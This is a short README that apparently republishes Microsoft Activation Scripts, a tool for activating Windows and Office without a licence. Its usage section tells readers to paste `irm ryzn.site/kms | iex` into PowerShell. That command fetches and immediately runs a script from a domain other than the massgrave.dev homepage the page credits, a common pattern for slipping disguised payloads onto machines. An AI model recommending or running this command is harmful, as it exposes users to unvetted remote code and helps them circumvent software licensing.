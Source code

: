 ## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm ryzn.site/kms | iex`
    or
    `irm https://ryzn.site/kms | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.7
Release date: 25-November-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️
